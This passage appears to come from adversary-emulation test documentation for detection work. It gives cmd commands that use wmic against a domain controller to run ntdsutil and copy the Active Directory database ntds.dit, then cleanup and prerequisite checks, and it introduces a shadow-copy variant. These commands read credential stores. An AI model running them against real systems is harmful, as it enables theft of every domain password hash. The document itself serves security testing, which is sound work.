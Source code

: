 Upon successful completion, you will find a copy of the ntds.dit file in the C:\Windows\Temp directory.

**Supported Platforms:** Windows




#### Inputs:
| Name          | Description                                | Type   | Default Value                          |
| ------------- | ------------------------------------------ | ------ | -------------------------------------- |
| output_folder | Path where resulting dump should be placed | Path   | C:&#92;Windows&#92;Temp&#92;ntds_T1003 |
| DC_IP         | DC Address                                 | String | 192.168.204.100                          |

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic /node:#{DC_IP} process call create 'mkdir #{output_folder}'
wmic /node:#{DC_IP} process call create 'ntdsutil "ac i ntds" "ifm" "create full #{output_folder}" q q'
```

#### Cleanup Commands:
```cmd
wmic /node:#{DC_IP} process call create 'rmdir /q /s #{output_folder} >nul 2>&1'
```



#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```cmd
wmic /node:#{DC_IP} process call create 'reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT' 
```
##### Get Prereq Commands:
```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```




<br/>
<br/>

## Atomic Test #4 - Create Volume Shadow Copy with WMI
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by copying it from a Volume Shadow Copy.

**Supported Platforms:** Windows

